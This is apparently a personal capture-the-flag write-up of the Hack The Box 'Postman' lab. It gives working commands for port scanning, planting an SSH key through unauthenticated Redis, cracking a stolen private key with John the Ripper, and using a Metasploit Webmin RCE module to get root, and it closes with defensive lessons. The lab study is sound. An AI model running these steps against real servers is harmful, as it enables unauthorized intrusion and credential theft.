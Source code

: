 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png
coverY: 0
---
```


# 🧠 Real-World Security Lessons from HTB’s Postman: Misconfig to Root📮

<div data-full-width="true"><figure><img src="../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png" alt=""><figcaption></figcaption></figure></div>

### 💡 Summary

Postman (Linux, Easy) brings together two beautiful classics: an unauthenticated Redis server and a Webmin 1.910 instance vulnerable to command injection. Add a dash of SSH key juggling, and we’ve got a shell delivery system.

### 🔍 Enumeration

#### ⚙️ Full Port Scan

```
nmap -n -p- -vvv --reason -oN nmap/01-full-port-scan.txt -iL target.txt
```

**Open Ports**

* 22 – SSH
* 80 – Apache 2.4.29
  *

      <figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
* 6379 – Redis 4.0.9 (no auth)
* 10000 – MiniServ 1.910 (Webmin)



#### 🧠 Service Enumeration

```
nmap -sC -A -O -sV -oN nmap/03-detail-scan.txt -p22,80,6379,10000 -iL target.txt
```

Discovered:

* **Webmin** running on MiniServ 1.910
* **Redis** unauthenticated
* **SSH** banner suggests Ubuntu
* Apache server hosting a personal website

🔎 Googled the following:

* Redis 4.0.9 RCE possibilities&#x20;
  * [link](https://d4luc1.medium.com/unauthenticated-redis-server-leads-to-rce-6c175c75b293)
  * [<sub>https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419</sub>](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419)
* Webmin 1.910 exploit [Exploit-DB 46984](https://www.exploit-db.com/exploits/46984)



### 🛠️ Exploitation: Redis to Shell

**Generate SSH Key**

```
ssh-keygen -f postman
```

**Check for writable `.ssh` directory in Redis**

```
redis-cli -h 10.10.10.160
config set dir .ssh
config set dbfilename authorized_keys
```

**Inject Public Key**

```
(echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > pub_key.txt
cat pub_key.txt | redis-cli -h 10.10.10.160 -x set exploit
save
```

**Login via SSH as redis**

```
ssh -i postman redis@10.10.10.160
```

### 🚪 Lateral Movement

Found `id_rsa.bak` in `/opt`:

```
scp redis@10.10.10.160:/opt/id_rsa.bak .
ssh2john id_rsa.bak > hash.john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.john
```

🎯 **Password Cracked:** `computer2008`

* i tried to ssh into the box but i was not able to as Matt
  * so changed user using the redis shell

```
su Matt
```

### 📈 Privilege Escalation – Webmin RCE

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* When i try to login into web admin panel with Matt Creds i can get in
* metasploit has a module for exploit webadmin

```
linux/http/webmin_packageup_rce
```

* webadmin is running as root and hence after exploiting it get a shell as root

### 🧠 Key Learnings from HTB Postman

1. **Default Redis Misconfiguration Can Lead to Shell Access**\
   Misconfigured Redis instances without authentication allow attackers to write files like `authorized_keys`, leading to direct system access.
2. **Exposed Private Keys Are a Critical Risk**\
   Backup or misplaced private keys (`.bak` files) can be cracked and reused for lateral movement. Regular key audits and encryption hygiene are essential.
3. **Outdated Web Interfaces Like Webmin Pose Privilege Escalation Risks**\
   Webmin v1.910 contains a known RCE vulnerability, allowing remote root access via command injection. Patch management is non-negotiable.
4. **Credential Reuse Enables Account Traversal**\
   Reusing passwords across services (e.g., Redis to Webmin) facilitated lateral movement and elevation of privileges.
5. **Misconfigurations Chain into Full Compromise**\
   No single point of failure — rather, a chain of small missteps (open Redis, leaked key, outdated Webmin) led to complete root compromise.



{% embed url="https://www.hackthebox.com/achievement/machine/409699/215" %}

